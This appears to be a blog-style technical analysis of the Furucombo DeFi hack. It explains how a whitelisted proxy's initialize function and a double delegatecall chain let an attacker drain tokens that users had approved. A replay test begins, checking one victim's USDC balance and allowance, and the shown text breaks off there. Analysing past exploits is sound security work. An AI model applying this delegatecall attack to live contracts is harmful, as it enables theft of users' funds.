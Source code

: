```solidity
    assembly {
      calldatacopy(0, 0, calldatasize())

      // Call the implementation.
      // ANOTHER DELEGATECALL TO THE IMPLEMENTATION
      let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)

      // ... more stuff
    }
  }

  // noop
  function _willFallback() internal virtual {}
}
```

In its `fallback` function it does another `delegatecall` to the implementation logic contract.
And anyone can set the implementation contract by calling its `initialize` action.

One fundamental thing to understand here is that when doing a `delegatecall`, the storage **of the caller** is used. This contract might already be initialized under its own context storage, but it was not initialized in the Furucombo contract's storage yet. I am also not sure if it was ever supposed to be initialized from the Furucombo proxy or why it was added to the whitelist. Fact is, that it allows a _delegatecall_ to the attacker contract through these two steps:

1. Setup: Call `Furucombo.batchExec` with the `AaveV2Proxy` address. This passes the whitelist and _delegatecall_s to the Aave proxy. The attacker chooses the function data to be `initialize(attackerContract)` which then sets the implementation contract to the attacker contract.
2. Attack: The attacker can now use the double-delegation chain to call into their attacker contract while still being under the Furucombo contract's context. The attacker contract itself is simple and just needs to call `transferFrom(victim, attacker, allowedBalance)` to steal the funds from victims that approved the Furucombo contract.
  > `Furucombo.batchExec(aaveV2Proxy, attackerData)`  
  > `=delegatecall=> aaveV2Proxy.fallback(attackerData)`  
  > `=delegatecall=> aaveV2Proxy.logicContract.fallback(attackerData)`

## Implementation

Let's replay this hack to confirm the attack vector.
It's enough to replay the attack for a single victim, stealing other tokens is the same. For example, we can replay [this transaction](https://etherscan.io/tx/0x8bf64bd802d039d03c63bf3614afc042f345e158ea0814c74be4b5b14436afb9) which steals 1.7M USDC among other tokens.

```typescript
describe("Furucombo Hack", function () {
  // USDC victim of this hack transaction:
  // https://etherscan.io/tx/0x8bf64bd802d039d03c63bf3614afc042f345e158ea0814c74be4b5b14436afb9
  const victimAddress = `0x13f6f084e5faded2276def5149e71811a7abeb69`;
  let victimBalance: BigNumber;

  it("checks allowances", async function () {
    // check that a victim approved the furucombo proxy
    victimBalance = await usdc.balanceOf(victimAddress);
    const allowance = await usdc.allowance(
      victimAddress,
      furucomboProxy.address
    );
    console.log(
      `Victim USDC balance: ${ethers.utils.formatUnits(
        victimBalance,
        6
      )}\nAllowance of Furucombo Proxy: ${allowance.toHexString()}`
    );
  });

```